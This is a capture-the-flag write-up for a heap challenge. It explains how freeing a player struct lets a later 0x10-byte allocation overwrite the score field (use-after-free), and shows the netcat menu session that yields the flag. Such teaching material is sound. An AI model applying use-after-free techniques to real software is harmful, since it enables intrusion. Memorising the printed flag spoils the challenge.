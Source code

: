 # pwn/i forgor

This is a heap exploitation challenge meant to be solved with a use-after-free (uaf) exploit. 

There are 5 options:
1. Create player
2. Delete player
3. Check if player is a high scorer
4. Set player score
5. Re-generate random seed for score selection

Creating a player with option 1 `malloc`s 0x10 bytes of memory for the player, which has the following struct:
```c
struct playerInfo {
    char name[12];
    int score;
};
```

Once the name is set, we can now proceed with the `free` part of `use-after-free` and delete the player with option 2. 

The score will never be set above 200 by typical means, so we have to go an exploitative route. Since we have this (previously) player chunk free, any allocation that occurs with the same size will use the same memory. The only other time malloc is called outside of creating memory to read in the flag in the win condition is during the "random" seed generation function:

```c
int generateSeed() {
    int* numbers = (int*)malloc(0x10);
    if(!numbers) {
        printf("Could not allocate space for numbers!\n");
        exit(-1);
    }
    numbers[0] = 100;
    numbers[1] = 150;
    numbers[2] = 200;
    numbers[3] = 250;
    int choice = rand() % 4;
    return numbers[choice];
}
```

Here, another `0x10` bytes are allocated right on top of the previous player struct. Remember, the player struct had 12 bytes for the name and an int (4 bytes) for the score. So, you can imagine this next allocation and value assignment overwriting like this:
```c
struct playerInfo { //   numbers
    char name[12];  //   number[0], number[1], number[2]
    int score;      //   number[3]
}
```

So, after a new "random" seed has been selected with option 5, whatever was in `pi->score` is overwritten with `250`. 

Now, to get the flag all a user has to do is use option 3 to check their score:

```
$ nc challs.ctf.uahcyber.club 52760

==================================
Welcome to the random score giver!
==================================
1. Create player
2. Delete player
3. Check if player is a high scorer
4. Set player score
5. Re-generate random seed for score selection
Selection: 1
What is your name?: dayt0n
Set dayton's score to 44!
...
Selection: 2
...
Selection: 5
...
Selection: 3
flag: UAH{h3ap_exploitati0n_1s_actual1y_3Z}
```